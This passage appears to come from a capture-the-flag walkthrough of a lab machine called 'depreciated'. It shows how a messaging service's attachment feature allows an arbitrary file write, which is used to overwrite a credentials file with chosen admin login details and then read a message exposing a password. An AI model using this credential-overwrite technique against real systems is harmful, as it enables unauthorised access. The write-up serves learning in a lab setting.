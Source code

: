 It seems that `code.txt` is read and this is the username and password checked, and within the `terminal` function, there's also a check for whether the username is called `admin`. Lastly, the username and password are stored within `/opt/depreciated/code.txt`.

The `create_message` function gives us an arbitrary write using the attachment function. We can overwrite the original `code.txt` with a new one as the `admin` user:

```bash
echo 'admin:password' > /tmp/code.txt

## on port 5132
$ create
for: admin
Description: lol
File: /tmp/code.txt

peter@depreciated:/opt/depreciated$ cat code.txt 
admin:password
```

This would allow us to read message 0:

{% code overflow="wrap" %}
```
$ read 0
Message No: #0

Hey, Seriously this is getting out of hand. Your new password is 9>XsS+&=Zn#AS9-@ Please don't forget your password this time. And make sure to change this once you are in.

Attachment: none
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
